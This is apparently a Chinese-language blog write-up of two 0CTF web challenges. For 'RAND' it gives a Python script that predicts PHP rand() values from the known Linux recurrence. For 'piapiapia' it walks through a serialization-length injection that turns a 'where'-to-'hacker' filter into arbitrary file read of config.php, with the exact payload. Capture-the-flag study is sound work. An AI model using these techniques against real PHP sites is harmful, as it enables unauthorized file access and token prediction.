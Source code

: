 ```yaml
---
layout:     post
title:      "0CTF"
subtitle:   "web"
date:       2015-11-19
author:		"dogewatch"
header-img: "img/home-bg-o.jpg"
tags:
    - ctf
    - web
---
```


> "菜如狗"

## 前言

16年第一场CTF，被老外虐成渣渣，惨惨惨惨惨。。。

---

## RAND

先上题目代码：

```
<?php
include('config.php');

session_start();

if($_SESSION['time'] && time() - $_SESSION['time'] > 60) {
    session_destroy();
    die('timeout');
} else {
    $_SESSION['time'] = time();
}

echo rand();
if (isset($_GET['go'])) {
    $_SESSION['rand'] = array();
    $i = 5;
    $d = '';
    while($i--){
        $r = (string)rand();
        $_SESSION['rand'][] = $r;
        $d .= $r;
    }
    echo md5($d);
    //var_dump($_SESSION['rand']);
} else if (isset($_GET['check'])) {
    //var_dump($_GET['check']);
    echo "\n";
    if ($_GET['check'] === $_SESSION['rand']) {
        echo $flag;
    } else {
        die('die');
        session_destroy();
    }
} else {
    show_source(__FILE__);
}

```

这题真是逼了狗了，各种爆破rand种子，但是就是死活过不了md5的校验。于是怀疑爆破得到的种子并不是真正的种子，
而是恰巧rand值碰上了而已。无奈之下到处翻资料发现在linux下php的rand函数值序列有着这样的一个规律：

```
rand[i] = (rand[i-3] + rand[i-31]) % 2^31
```

瞬间涨姿势了有木有，于是写脚本爆破之：

```
import requests

while True:
    r = requests.session()
    l = []
    for i in range(50):
        response = r.get('http://127.0.0.1/test.php')
        l.append(int(response.content[:response.content.find('<')]))

    response = r.get('http://127.0.0.1/test.php?go')
    l.append(int(response.content[:-32]))

    url = 'http://127.0.0.1/test.php?'
    for i in range(5):
        end = len(l)

        randnum = (l[end - 3] + l[end - 31]) % 2 **31
        l.append(randnum)

        url += 'check[]={}&'.format(randnum)

    response = r.get(url)
    if 'die' not in response.content:
        print response.content
        break
```

得到flag：0ctf{randisawesomebutdangerous}

---

## piapiapia

这题是道审计题，苦读代码无数遍后并没有发现什么漏洞，各种过滤都很完善，上传的文件也被md5重命名，无法执行。这时队里的pei大腿出场了，
发现在profile.php里显示图片是用的这样的代码：
```
$photo = base64_encode(file_get_contents($profile['photo']));
<img src="data:image/gif;base64,<?php echo $photo; ?>" class="img-memeda " style="width:180px;margin:0px auto;">
```
这意味着我们如果能控制$profile的话就能实现任意文件读取。继续看代码：
```
$profile = unserialize($profile);
```
说明$profile是经历了序列化与反序列化操作，此时并没有抱多少希望。继续看update.php中序列化操作的代码：
```
$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
```
可以看到$profile序列化后的内容被扔进了update_profile函数进行处理，继续跟踪进class.php查看update_profile函数，发现了这么一个地方：
```
public function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
咋一看这个函数，一个标准的sql注入过滤函数，过滤的反斜线和单引号，同时把一些危险的字符串例如‘select’等做了替换。
这么看没什么问题，但是如果了解序列化的机制的话，就会发现其中隐含的漏洞点。
‘select’、‘insert’、‘update’、‘delete’、‘where’这5个字符串，均会被替换为‘hacker’。前4个字符串为6个字符，而‘where’为5个字符，‘hacker’为6个字符。这意味着只有字符串中存在‘where’时会发生长度的改变。而list在被序列化成字符串时，其每一部分的长度均以例如‘s:5’的形式被固定在了字符串中，在反序列化时会按照这个值去还原数组。
举个例子，$a = array('where')序列化后的字符串为‘a:1{i:0;s:5:"where";}’，这串字符串在经过过滤函数替换操作后变成了‘a:1{i:0;s:5:"hacher";}’，这会导致在反序列化时‘hacker’的最后一个字母‘r’读不到，从而导致出错。
于是我们可以利用这点，构造一定量的‘where’字符加上序列化控制符号覆盖掉其后的字符串，使得反序列化后的值为我们所控。
同时我们发现nickname变量的过滤代码如下：
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');
```
如果nickname为数组即可绕过过滤，结合序列化的漏洞，我们就可以控制其后的photo变量，做到任意文件读取。
payload如下：
```
nickname[0] = 'wherewherewherewherewherewherewherewherewherewherewhere";i:1;s:26:'
nickname[1] = '333";i:2;s:1:"1";}s:5:"photo";s:10:"config.php";}a:1{s:12:'
```
将其post过去后成功读取config.php里的flag：0ctf{fa717b49649fbb9c0dd0d1663469a871}

---

## 后记

两天就这么两道题，真是深深滴感觉自己菜，在从腿毛挂件进化成大腿的路上任重道远啊。